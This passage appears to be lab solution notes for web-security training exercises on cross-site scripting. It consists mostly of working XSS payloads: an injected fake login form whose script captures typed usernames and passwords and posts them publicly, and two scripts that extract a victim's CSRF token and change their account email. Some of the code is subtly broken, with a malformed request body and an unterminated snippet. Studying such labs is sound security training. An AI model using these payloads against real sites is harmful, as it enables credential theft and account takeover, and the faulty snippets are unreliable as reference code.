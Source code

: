 #### Lab: Exploiting cross-site scripting to capture passwords
- Here we will prepare input form and create a function triggered by filling this form and post a comment with credentials

```html
<input name=username id=username>
<input type=password name=password onchange=fill()>

<script>
function fill () {

var data = new FormData();
var user = document.getElementsByName('username')[0].value;
var pass = document.getElementsByName('password')[0].value;

data.append('csrf', document.getElementsByName('csrf')[0].value);
data.append('postId', 3);
data.append('comment', `${user}:${pass}`);
data.append('email', 'test@test.tst');
data.append('name', 'tester');
data.append('website', 'http://foo.com');

fetch('/post/comment', {
method: 'POST',
mode: 'no-cors',
body: data
});
};
</script>
```

#### Lab: Exploiting XSS to bypass CSRF defenses
- Pay attention that CSRF token is visible from the page source (hidden field)

```html
<script>
var req = new XMLHttpRequest();
req.onload = handleResponse;
req.open('get','/my-account',true);
req.send();
function handleResponse() {
    var token = this.responseText.match(/name="csrf" value="(\w+)"/)[1];
    var changeReq = new XMLHttpRequest();
    changeReq.open('post', '/my-account/change-email', true);
    changeReq.send('csrf='+token+'&hello@friend.com')
};
</script>
```

or

```html
<script>
fetch('/my-account')
  .then(response => response.text())
  .then(html => {
    var token = document.getElementsByName("csrf")[0].value;
    return fetch('/my-account/change-email', {
      method: 'POST',
      headers: {
        'Content-Type': 'application/x-www-form-urlencoded'
      },
      body: `csrf=${token}&email=hello@friend.com`
    });
  })
```
